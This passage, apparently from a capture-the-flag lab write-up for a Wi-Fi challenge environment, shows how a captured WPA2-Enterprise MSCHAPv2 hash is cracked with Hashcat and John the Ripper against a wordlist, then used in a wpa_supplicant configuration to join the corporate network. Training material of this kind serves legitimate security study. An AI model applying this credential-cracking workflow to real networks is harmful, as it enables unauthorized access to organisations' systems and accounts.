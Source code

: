 #### Hashcat
First we should copy the hash for Hashcat. The hash can be found after `MANA EAP EAP-MSCHAPV2 HASHCAT | `.
The hash should be pasted into a file so we can crack it with Hashcat.
```bash
root@WiFiChallengeLab:~# nano wpa-enterprise.hash
root@WiFiChallengeLab:~# cat wpa-enterprise.hash 
juan.tr::::59b8e1dbc7a88ebcf721285292f0212b880fdfc4fbeffe6f:d4b992060e579a0d

```
The following command should be executed to crack the hash with Hashcat.
```bash
hashcat -m 5500 wpa-enterprise.hash rockyou-top100000.txt --force
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231211223753.png){: width="700" height="400" }


#### John the Ripper
It is possible to crack the password with John the Ripper. To do this we should copy the hash from the output after `MANA EAP EAP-MSCHAPV2 JTR | `.
The hash should be pasted into a file so we can crack it with John the Ripper.
```bash
root@WiFiChallengeLab:~# nano wpa-enterprise.hash
root@WiFiChallengeLab:~# cat wpa-enterprise.hash 
juan.tr:$NETNTLM$d4b992060e579a0d$59b8e1dbc7a88ebcf721285292f0212b880fdfc4fbeffe6f:::::::
```
To run John the Ripper we can run the following command.
```bash
john wpa-enterprise.hash --wordlist=rockyou-top100000.txt
```
On WiFiChallengeLAB there was an issue with John the Ripper. It did not recognize the hash. Therefor I did it again on my Kali instance.
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231211223212.png){: width="700" height="400" }



### Connect to the WPA2 Enterprise network 
We were able to crack the hash of the user to a plain text password. We can use the information now to create a configuration file for wpa_supplicant.
```bash
nano wpa_supplicant.conf 
```
The content of `wpa_supplicant.conf` should look like this:
```
network={  
  ssid="wifi-corp"  
  scan_ssid=1  
  key_mgmt=WPA-EAP  
  identity="CONTOSO\juan.tr"  
  password="PASSWORD"  
  eap=PEAP  
  phase1="peaplabel=0"  
  phase2="auth=MSCHAPV2"  
}
```
A small side note is that the domain/username may be case sensitive.
With the save configuration file we can try to connect to the WPA2 Enterprise network.
